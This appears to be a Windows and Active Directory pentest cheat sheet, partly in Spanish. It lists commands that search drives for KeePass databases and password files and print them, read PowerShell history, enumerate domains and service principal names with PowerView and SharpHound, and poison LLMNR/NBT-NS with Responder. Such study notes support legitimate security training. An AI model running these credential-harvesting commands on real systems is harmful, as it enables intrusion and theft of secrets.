 ```cmd
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
type C:\xampp\passwords.txt
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```
- Running process with other user
```cmd
runas /user:backupadmin cmd
```

- History
```cmd
Get-History
(Get-PSReadlineOption).HistorySavePath
```

Obtener el Domain
``` cmd
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

### Sharphound

Import-Module .\Sharphound.ps1
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound

### Powerview

PS C:\Tools> Import-Module .\PowerView.ps1

https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview

### Service Principal Names

c:\Tools>setspn -L iis_service
Registered ServicePrincipalNames for CN=iis_service,CN=Users,DC=corp,DC=com:
 HTTP/web04.corp.com
 HTTP/web04
 HTTP/web04.corp.com:80

Get-NetUser -SPN | select samaccountname,serviceprincipalname
samaccountname serviceprincipalname
-------------- --------------------
krbtgt kadmin/changepw
iis_service {HTTP/web04.corp.com, HTTP/web04, HTTP/web04.corp.com:80

nslookup.exe web04.corp.com

## LLMNR/NBT-NS

# You can Man in The Middle using LLMNR and NBT-NS if they're bad configured
sudo responder -I eth0 -wFv
